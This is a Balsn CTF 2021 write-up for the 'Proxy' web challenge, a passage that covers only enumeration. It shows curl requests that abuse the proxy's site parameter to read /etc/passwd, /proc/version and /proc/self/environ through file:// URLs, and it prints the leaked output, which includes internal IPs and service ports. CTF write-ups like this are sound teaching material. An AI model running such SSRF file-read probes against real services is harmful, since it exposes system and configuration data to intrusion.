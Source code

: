 # Balsn CTF 2021 - Proxy

## Summary

> Never Trust, Always Verify.
> 
> http://proxy.balsnctf.com
> 
> Flag is not a local file, you don't need to use any fuzzing tools.
> 
> Author: ysc
> Verifier: bookgin(3hr)
> Verifier: Kaibro(5hr)

**Points**: 291
**Solves**: 18/278

## Walkthrough

### Enumeration

Clicking into the link, the only thing you can see is this prompt:
```
/query?site=[your website]
```

So the first thing I checked is the external connectivity (well it is a proxy) , so lets see if it connects to Google:
```bash
curl -cv -o - http://proxy.balsnctf.com/query?site=https://google.com
```
Yes, it works!


I have also checked the common Linux paths and `/proc` tricks:
```
http://proxy.balsnctf.com/query?site=file:///etc/passwd

...
gg:x:1001:1001:Linux User,,,:/home/gg:/bin/sh
```

```
curl -cv --output - http://proxy.balsnctf.com/query?site=file:///proc/version  
Linux version 5.4.120+ (builder@cc55534de813) (Chromium OS 12.0_pre408248_p20201125-r7 clang version 12.0.0 (/var/tmp/portage/sys-devel/llvm-12.0_pre408248_p20201125-r7/work/llvm-12.0_pre408248_p20201125/clang f402e682d0ef5598eeffc9a21a691b03e602ff58)) #1 SMP Wed Aug 18 10:20:32 PDT 2021
```

Hmmm that kernel version is...

```
curl -cv --output - http://proxy.balsnctf.com/query?site=file:///proc/self/environ
CHALL_PORT=tcp://10.44.0.53:8000
CHALL_PORT_8000_TCP=tcp://10.44.0.53:8000
CHALL_PORT_8000_TCP_ADDR=10.44.0.53
CHALL_PORT_8000_TCP_PORT=8000
CHALL_PORT_8000_TCP_PROTO=tcp
PYTHON_PIP_VERSION=21.2.4
SHLVL=1
HOME=/home/gg
CHALL_SERVICE_HOST=10.44.0.53
CHALL_SERVICE_PORT=8000
CHALL_SERVICE_PORT_HTTP=8000
GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D
HOSTNAME=chall-v1-76d9c69984-rzj2b
```